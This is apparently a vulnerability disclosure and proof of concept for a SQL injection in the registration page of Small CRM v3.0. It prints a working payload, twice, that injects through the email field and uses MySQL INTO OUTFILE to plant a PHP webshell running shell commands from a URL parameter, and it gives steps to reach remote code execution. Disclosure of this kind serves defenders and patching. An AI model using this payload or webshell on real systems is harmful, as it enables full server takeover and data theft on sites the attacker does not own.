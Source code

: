 # CVE-2024-xxxx
- Exploit Author: nikhil-aniill

# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE) via the Outfile functionality of MySQL. This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - ![Intercepted Request](reg_req.png)
5. Send the intercepted request to the repeater.
7. Inject a SQL injection payload into the email field, observing the writing of a webshell into the filesystem for persistence mechanisms.
   - ```sql '+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#```
   - ![Payload Execution](sqli_payload.png)
9. Modify the payload to access the webshell on the server and utilize it to gain complete access to the web server.
10. Access the URL associated with the generated file, triggering a Remote Code Execution.
    - ![RCE](rce.png)

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots
![Affected Code](code.png)

## References
